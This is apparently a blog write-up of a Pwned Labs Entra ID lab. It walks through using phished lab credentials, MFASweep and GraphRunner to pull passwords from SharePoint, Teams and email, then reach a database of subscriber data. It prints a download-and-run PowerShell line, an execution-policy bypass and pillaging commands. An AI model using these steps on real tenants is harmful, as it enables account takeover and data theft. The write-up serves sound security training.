

+++
title = 'Pwned Labs Write-Up - Loot Exchange, Teams and SharePoint with GraphRunner'
date = 2024-04-20T15:31:41+03:00
draft = false
+++

Today I'll be doing something a bit different from the usual HackTheBox write-ups. This time we'll be working through a cloud-based lab, more specifically Entra ID (Azure AD).

Azure along with services like Microsoft 365 are very widely used today, so it's essential to understand how to attack and defend those services. 

This is a free lab from the [Pwned Labs](https://pwnedlabs.io/) platform, which you should definitely check out, if you haven't heard of it yet. They offer real-world cloud security labs for both blue and red team, for beginners and advanced folks, with content covering all three major cloud providers (GCP, AWS, Azure).

For the purposes of this lab, I have a Windows 11 VM and I also recommend you have a Windows VM ready to go. I've disabled real-time protection, so the tools that we're going to use don't trigger it.

One final thing to note is that you don't need a VPN for any of the free labs on the platform, just spin the lab up and you're good to go.
## Premise

The premise for this lab is that our read team has successfully phished a Mega Big Tech employee and we've obtained their credentials. Our task is to gain access to customer records and demonstrate impact. Below are the credentials we have:

```txt
IAM User: Clara.Miller@megabigtech.com
Password: MegaBigTech99
```
### Outcomes

The outcomes or objectives of the lab include identifying Microsoft services with no multi-factor authentication enabled with the help of MFASweep, exfiltrating data from SharePoint, Teams and Exchange Online, and leveraging information we discover to pillage data from an Azure SQL database.

The lab can be approached as a CTF and there's a walkthrough included as well, which makes for a great learning experience.
## Checking for MFA with MFASweep

Multi-factor authentication (MFA) is an important security feature and not only for cloud environments, but also in everyday life. It should be enabled whenever possible, as without it it's much easier to gain access to accounts and services.

We're going to start by using [MFASweep](https://github.com/dafthack/MFASweep) with the credentials we've obtained to check if MFA is enabled and enforced for our user. I recommend checking out the GitHub for the tool to better understand which services it attempts to access and how to use it.


There are also separate modules if we want to run the tool against services individually. 

In our case, we're going to stick to the basic usage and check all services with one command.

We can run the MFASweep PowerShell script in memory:

```powershell
IEX (iwr 'https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1')
```

Or we can download it to our machine and import it (I recommend opening a terminal and starting with `powershell -ep bypass` to ensure we can execute scripts).

Afterwards we can run the following command to check for MFA.

```powershell
. .\MFASweep.ps1
Invoke-MFASweep -Username Clara.Miller@megabigtech.com -Password MegaBigTech99 -Recon -IncludeADFS
```


We can currently ignore the warming and confirm, but it's good to keep in mind that this isn't a script that's meant to be used for credential stuffing or brute-forcing, as we may lock out accounts. 

We get the output of the script trying to log into each service one after the other. The most interesting result for us is the first one.


MFA is not enabled for the Microsoft Graph API, which means that we can enumerate and access applications that rely on it such Outlook, Teams and SharePoint in order to exfiltrate any available data.
### Microsoft Graph PowerShell SDK

One thing we're going to require first however is the Microsoft Graph PowerShell SDK. We can find out how to install it from the [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/microsoftgraph/installation?view=graph-powershell-1.0).

`Install-Module Microsoft.Graph -Scope CurrentUser`

It can take between 10 to 15 minutes, so take a break while it's installing. You'll just have to confirm the prompts that may appear such as requiring NuGet to continue, if you haven't installed it before.

Now that we've installed the SDK, we can log into Azure with the `Connect-MgGraph` command which will open a window and prompt you to sign in and enter the user credentials, after which you'll receive the following output:


It's time to check if our user has been assigned a Microsoft 365 license with the following command:

```powershell
Get-MgUserLicenseDetail -UserId "Clara.Miller@megabigtech.com"
```


Perfect, O365_BUSINESS_ESSENTIALS means that the user has access to Outlook, Teams, SharePoint and other productivity tools.
## Using GraphRunner for finding loot

[GraphRunner](https://github.com/dafthack/GraphRunner) is the main star of this lab. It's a post-exploitation toolset for interacting with the Microsoft Graph API. It provides has various modules for authentication, reconnaissance and enumeration, persistence, and pillaging of data from a Microsoft Entra ID (Azure AD) account.

As the walkthrough itself recommends, you should check out the [article on GraphRunner](https://www.blackhillsinfosec.com/introducing-graphrunner/) on the BlackHills Information Security website.

We're going to grab the PowerShell script from the GitHub repo and either run it in memory or download and import it as we did previously.


We can use `List-GraphRunnerModules` as the welcome message says in order to list all available modules.

The pillaging modules available are of particular interest to us.


But first, we need to authenticate and get a session with the Graph API.

`Get-GraphTokens -UserPasswordAuth`


The command will prompt us for a username and password and then try to obtain session tokens.


The tokens are then written to a global `$tokens` variable and the output shows us how we can use the variable with other modules, which we're going to need.
### SharePoint and OneDrive

Let's start with the first pillaging module in the list above `Invoke-SearchSharePointAndOneDrive`, which searches across all SharePoint Sites and OneDrive drives that are visible to the user.

We can see examples for any module with`Get-Help` followed by the module name and the `-examples` parameter.

```powershell
Get-Help Invoke-SearchSharePointAndOneDrive -examples
```


Going by the given example, we can search for files containing the string `password`.

```powershell
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password'
```


This returns two files - `passwords.xlsx`, hosted in a **Shared Documents** folder and `Finance Logins.docx`, which is in a folder with the same name, however in the FinanceTeam SharePoint site.

We can proceed with the prompt at the bottom in order to download those files by their number. They will be saved in the same folder where we have our terminal open.

Both files contain various passwords, we should keep that information in mind and document our findings in case we can make use of them later. Especially the file containing the Finance Team's logins could lead to access to very sensitive information, systems and data, which could greatly impact the company if leaked.


> I have LibreOffice installed in my VM, so I can view Office documents, but you could also just use the credentials we have and view the files online.

We can keep searching for different strings that may be contained in sensitive files. Let's try with the string `confidential`.

```powershell
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'confidential'
```


This returns one file named `Bonuses - Confidential.xlsx`. We download and open it, but it's password protected.


We can attempt the passwords we have gathered one by one to see if any of them work. We're out of luck, however, so we should keep looking.
### Teams and Mailbox

We can move on to other pillaging modules and keep investigating Microsoft 365 services. We can use the `InvokeSearchTeams` module to go through all Teams messages in all channels that are readable by the current user along with messages the user has sent to themselves. Afterwards we can use the `Invoke-SearchMailbox` module to search the mailbox of our user as well.

```powershell
Invoke-SearchTeams -Tokens $tokens -SearchTerm password
```


We get another password to add to our list and it just happens to work with the protected documented we downloaded!

Now we can open it and gain access to some more private information.


Let's search that mailbox now as well.

`Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 50`


Trying to proceed with downloading the files actually results in some errors and provides us with nothing of interest, but there's already a wealth of information in the message preview.

We have a username, a password
, a server and a database name:

```txt
Username: financereports
Password: $reporting$123
Server: mbt-finance.database.windows.net
Database: Finance
```

## MSSQL Database and HeidiSQL

If you follow the walkthrough on the website, you'll learn about interacting with the database using PowerShell and VS Code. Regarding PowerShell, I found these resources useful as well: [here](https://www.sqlshack.com/connecting-powershell-to-sql-server/) and [here](https://www.connectionstrings.com/sql-server/).

I'm going to show you a third way with HeidiSQL, which is a free software and lets you work with, see and edit data in various database systems: MariaDB, MySQL, Microsoft SQL, PostgreSQL and SQLite.

You can download and install the latest version from the official website [here](https://www.heidisql.com/download.php). 

After that, you can start the application and click on `New` in the bottom left corner.


This will let you configure and add a new connection, for which we can use the data we have obtained.


Since we're dealing with MSSQL, we can suppose that the port in use will be the default `1433`.

When you then click on `Open`, you'll most likely be greeted by the following message:



You can just follow the link and install the recommended driver, after which you'll successfully gain access to the database.

We can then easily run queries via the `Query` tab.


Let's find out what tables are available:

```sql
SELECT * FROM INFORMATION_SCHEMA.TABLES;
```


The `Subscribers` table looks particularly interesting, let's find out what it contains:

```sql
SELECT * FROM Subscribers;
```


The table contains personally identifiable information of Mega Big Tech subscribers along with their financial details, all in plaintext. The database has not been sufficiently protected and the data has not been encrypted either.

The table also happens to contain the flag for this lab.
### Impact

If an attacker instead of us gets their hands on valid user credentials, they could easily follow a similar path to reach the database and the personal information it contains. The data could then leveraged and sold on dark web markets and the company subscribers would lose trust in the company and may switch to other providers, causing the company to lose revenue.

Implementing multi-factor authentication would have prevented further enumeration and data exfiltration. Hopefully, there is an account lockout policy implemented, so that the database credentials cannot be brute-forced.

It's important to understand what the most important data in the company is and implement multiple layers of defence to protect it.
## Conclusion

I found this lab to be an excellent first foray into cloud-based security from a red teamer's point of view and a great introduction to some tools for enumeration and exfiltration.

If you've made it this far, thank you for reading!

